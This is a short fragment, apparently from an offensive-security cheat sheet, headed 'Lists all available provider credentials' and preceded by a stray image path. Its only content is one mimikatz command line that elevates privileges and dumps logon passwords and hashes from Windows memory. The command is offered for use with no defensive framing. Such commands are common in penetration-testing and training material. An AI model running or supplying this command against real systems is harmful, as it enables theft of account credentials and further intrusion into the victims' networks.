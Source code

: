 ## Lists all available provider credentials
```console
mimikatz "log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```
